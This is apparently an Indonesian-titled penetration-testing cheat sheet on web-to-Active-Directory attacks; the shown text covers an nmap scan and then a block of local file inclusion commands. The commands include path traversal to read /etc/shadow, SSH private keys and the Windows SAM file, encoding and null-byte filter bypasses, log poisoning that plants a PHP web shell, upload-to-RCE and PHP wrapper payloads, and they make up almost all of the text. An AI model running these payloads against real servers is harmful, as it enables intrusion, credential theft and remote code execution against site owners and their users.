 ## Dokumentasi Lengkap Privilege Escalation dan Pivoting Active Directory (ID)

### 1. Scan Jaringan dan Port dengan Nmap

```bash
nmap -sV 192.168.80.10
```

Port 80 terbuka, akses web server melalui browser.

### 2. Mencari Celah di Web

* **LFI**:

```bash
# ✅ Basic LFI Examples
curl "http://target/index.php?page=../../../../etc/passwd"
curl "http://target/index.php?page=../../../../windows/win.ini"
curl "http://target/index.php?page=../../../../var/log/apache2/access.log"

# 🔐 Bypass Filters
curl "http://target/index.php?page=..%2f..%2f..%2fetc%2fpasswd"          # URL encoded
curl "http://target/index.php?page=..%252f..%252fetc%252fpasswd"        # Double encoded
curl "http://target/index.php?page=../../../../etc/passwd%00"           # Null byte (old PHP)

# 🐚 LFI to RCE via Log Poisoning
# Step 1: Inject PHP via User-Agent header (access.log poisoning)
curl -A "<?php system(\$_GET['cmd']); ?>" "http://target/"
# Step 2: Include poisoned log to execute
curl "http://target/index.php?page=../../../../var/log/apache2/access.log&cmd=id"

# 🧑‍💻 Session Hijacking via LFI
curl "http://target/index.php?page=/var/lib/php/sessions/sess_abcd1234"

# ☠️ File Upload + LFI to RCE
# Upload image with embedded PHP code, then include it
curl "http://target/index.php?page=../../uploads/shell.jpg&cmd=id"

# 🌀 PHP Wrappers (if allow_url_include=On)
curl "http://target/index.php?page=php://filter/convert.base64-encode/resource=index.php"
curl "http://target/index.php?page=data:text/plain,<?php system(\$_GET['cmd']); ?>&cmd=id"

# 📁 Target Files (Linux/Windows)
curl "http://target/index.php?page=/etc/passwd"
curl "http://target/index.php?page=/etc/shadow"
curl "http://target/index.php?page=/etc/hostname"
curl "http://target/index.php?page=/home/user/.ssh/id_rsa"
curl "http://target/index.php?page=C:/Windows/win.ini"
curl "http://target/index.php?page=C:/Windows/System32/config/SAM"
```
